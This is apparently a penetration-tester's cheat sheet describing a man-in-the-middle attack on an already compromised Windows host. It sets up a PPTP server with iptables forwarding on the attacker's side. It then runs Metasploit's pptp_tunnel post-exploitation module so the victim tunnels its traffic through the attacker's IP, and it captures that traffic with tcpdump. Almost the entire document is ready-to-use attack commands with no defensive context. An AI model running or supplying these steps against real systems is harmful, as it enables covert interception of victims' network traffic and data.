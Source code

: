 # Metasploit

Install the dependency according to your package manager.

```
# apt install -y pptpd
```

For `localip` just include the gateway IP and `remoteip` just specify the available IP ranges that isn't occupied in the current subnet network.

```
# cat /etc/pptpd.conf
localip 192.168.0.1
remoteip 192.168.0.234-238
..[omitted]..
```

Specify the credentials.

```
# cat /etc/ppp/chap-secrets
# Secrets for authentication using CHAP
# client	server	secret			IP addresses
<username>  *       <password>      *
```

Create the firewall rules to accept incoming and outgoing PPTP network traffic.

```
# iptables -t nat -A POSTROUTING -o enp7s0 -j MASQUERADE
iptables -A FORWARD -i ppp0 -o enp7s0 -j ACCEPT
iptables -A FORWARD -i enp7s0 -o ppp0 -m state --state ESTABLISHED,RELATED -j ACCEPT
```

Enable port forwarding.

```
# echo 1 > /proc/sys/net/ipv4/ip_forward
```

Restart PPTP daemon service and check network statistics for the listening port.

```
# systemctl restart pptpd

# ss -antpl | grep :1723
```

```
$ ip address show enp7s0

# ip route
```

Then execute post module to make the target connect to the attacker's VPN tunnel.

```
msf > use post/windows/manage/pptp_tunnel

msf post(windows/manage/pptp_tunnel) > set session <session_ID>

msf post(windows/manage/pptp_tunnel) > set timeout 15

msf post(windows/manage/pptp_tunnel) > set pbk_name VPN

msf post(windows/manage/pptp_tunnel) > run rhost=<attacker_IP> username=<username> password=<password>
```

Then the victim should be authenticated in the attacker's VPN tunnel.

```
# ip address show ppp0
```

You can check the route network that contains the same configuration file (`/etc/pptpd.conf`) from `remoteip`.

```
metepreter > route
```

Intercept the packets.

```
# tcpdump -i <interface>
```

---
## References

- [Shell is Coming: Metasploit - Man in the Middle through PPTP tunnel](https://www.shelliscoming.com/2013/06/metasploit-man-in-middle-through-pptp.html)